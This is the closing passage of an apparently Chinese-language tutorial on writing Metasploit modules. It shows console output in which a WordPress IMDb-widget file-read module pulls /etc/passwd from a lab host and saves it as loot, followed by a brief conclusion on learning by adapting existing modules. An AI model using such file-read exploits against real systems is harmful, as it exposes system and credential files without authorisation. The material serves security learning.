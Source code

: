 ```
bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false

systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false

systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false

systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false

[+] 192.168.1.191:80 - File saved in: /root/.msf7/loot/20160403132842default192.168.1.191imdbwidget.file266865.txt

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

msf auxiliary(wp_imdb_profile_widget_file_read) > 

```

成功读取到/etc/passwd，测试成功～

0x05 结论
-------

* * *

文章主要介绍的是如何去编写module的方法，有的地方可能写的不是很详细。总结来说就是： 在接触一个新的东西时，参考别人已经写好的东西，然后修修改改，是一种很好快速入门的方法。